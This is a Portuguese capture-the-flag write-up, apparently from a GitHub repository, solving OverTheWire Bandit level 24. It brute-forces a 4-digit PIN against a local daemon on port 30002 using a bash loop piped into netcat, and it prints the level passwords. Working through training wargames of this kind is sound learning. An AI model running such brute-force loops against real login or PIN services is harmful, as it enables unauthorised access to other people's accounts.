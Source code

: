 # 🕵️ Bandit 24

Um daemon está escutando na porta 30002 e fornecerá a senha para bandit25 se for fornecida a senha para bandit24 e um código PIN numérico secreto de 4 dígitos. Não há como recuperar o código PIN, exceto passando por todas as 10.000 combinações, chamadas de força bruta.

## Solução

A descrição nos informa que precisamos nos conectar a porta 30002 do localhost. Vamos fazer um teste:
```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
Wrong! Please enter the correct pincode. Try again.
^C
```

Como precisaremos fazer um brute force, a forma mais simples de fazer isso é através de um pequeno script que gere todas as combinações possíveis, para que em seguida, as envie para a conexão. 

Podemos fazer isso através de um laço que percorre todos os números de 0 até 9999 e os concatena com a chave do nível atual, direcionando essas strings geradas para o netcat: 
```
bandit24@bandit:~$ for i in {0000..9999};do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i; done | nc localhost 30002
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```
Quando a combinação correta for atingida o servidor retornará a flag para o próximo nível! 🥷

## Conceitos utilizados

- shell script
- laços de repetição




